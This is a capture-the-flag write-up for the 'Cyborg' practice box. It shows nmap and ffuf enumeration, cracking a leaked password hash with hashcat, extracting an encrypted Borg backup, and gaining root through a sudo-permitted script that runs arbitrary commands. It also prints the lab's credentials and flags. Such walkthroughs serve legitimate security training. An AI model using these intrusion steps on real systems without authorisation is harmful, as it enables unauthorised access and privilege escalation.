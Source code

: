 # Cyborg
A box involving encrypted archives, source code analysis, and more.

### Resolution

We are given the IP address of the machine which will be referred to as $IP in the following `nmap` scan:
```
$ sudo nmap -sV -sC $IP
                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-12 15:58 UTC
Nmap scan report for 10.10.87.230
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The machine runs a web server. We navigate to the hosted website and find out that it contains the default Apache page set up after initialization.

![771159b35c97e429247aac754ad44bf06cc1efa8](https://github.com/elomarii/ctf4day/assets/106914699/b04e3548-89f0-4adc-a732-1e13475c0e24)


We can enumerate for other content hosted by the machine.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u "http://10.10.87.230/FUZZ" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.87.230/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 71ms]
etc                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 68ms]

```

We were able to find two directories. When navigating to the admin portal, we find a downloadable Borg backup of the website called.
The archive is encrypted and needs a passphrase for decryption.

Let's check the etc directory. This contains a configuration file of a Squid proxy and a passwd file.
The passwd file contains a hash of the `music_archive` user's password.
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

We successfully crack the password using `hashcat` and the `rockyou` wordlist. The password is `squidward`.
```
$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt 

<...snip...>

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 7 secs

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward

<...snip...>

```

Back to our music archive, we find out that the backup was made using the above password, and now can recover the archive's data using `borg` command line utility.

To list all the backups in the archive:
```
$ borg list final_archive
  
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 14:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Now let's extract the data. Note that the command is executed from `dev` sub-folder and that the output of the command will be written in the same location as well.
```
$ borg extract final_archive::music_archive
```

Content of the backup:
```
$ tree
.
└── alex
    ├── Desktop
    │   └── secret.txt
    ├── Documents
    │   └── note.txt
    ├── Downloads
    ├── Music
    ├── Pictures
    ├── Public
    ├── Templates
    └── Videos

```

The content of the secrete was a bit disappointing XD
```
shoutout to all the people who have gotten to this stage whoop whoop!"
```
However, the note is giving valuable information
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Since the above are Alex credentials, we can try connecting via ssh.

In the home directory, we find the user flag: `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`

Left is the root flag. Making use of the given hint "There might be an interesting file running as root" and checking our Alex permissions, we find that the script `backup.sh` can be run as a root.
```
$ sudo -l

Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

That script can execute any given command following the `-c` option. Using this we can enumerate files in the root repository.

```
$ sudo ./mp3backups/backup.sh -c "ls /root"

<...snip...>
Backup finished

root.txt
```

Finally the root flag: `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`



